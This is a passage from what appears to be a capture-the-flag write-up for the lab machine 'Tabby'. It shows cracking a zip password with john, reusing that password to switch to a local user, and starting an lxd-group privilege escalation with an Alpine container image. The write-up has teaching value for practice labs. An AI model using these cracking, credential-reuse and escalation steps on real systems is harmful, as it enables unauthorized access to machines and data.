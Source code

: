 Now that we have extracted the hash, let us crack it using john.

```bash
root@darkness:~# john archive.hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:00 DONE (2020-06-21 15:45) 1.052g/s 10908Kp/s 10908Kc/s 10908KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The password for the archive is `admin@it`. Let us check for password-reuse and try to su to the user of the system.

```bash
tomcat@tabby:/var/www/html/files$ su ash
Password: 
ash@tabby:/var/www/html/files$
```

Using the password of the archive, we can su to the user and read user.txt.

```bash
ash@tabby:~$ cat user.txt 
5e1c7***************************
```



## Privesc to root

Now that we have shell-access as user and read user.txt, let user enumerate the system for a privilege escalation path to root.

### Enumeration as user

Checking out the groups of the user, we find that the user is part of the `lxd` group.

```bash
ash@tabby:~$ groups
ash adm cdrom dip plugdev lxd
```

With this group it is possible to escalate the privileges of the user, similar to docker. The whole process is explained in [this article](https://reboare.github.io/lxd/lxd-escape.html) or in [ippsec's video](https://www.youtube.com/watch?v=EloOaaGg3nA&t=1465).

### Privesc using lxd

In order to escalate our privileges, we first have to create a container image. For this we can use [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder).

```bash
root@darkness:~# git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Receiving objects: 100% (27/27), 16.00 KiB | 910.00 KiB/s, done.
Resolving deltas: 100% (6/6), done.
root@darkness:~# cd lxd-alpine-builder/
root@darkness:~/lxd-alpine-builder# ./build-alpine 
Determining the latest release... v3.12
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
Downloading alpine-mirrors-3.5.10-r0.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
Downloading alpine-keys-2.2-r0.apk
```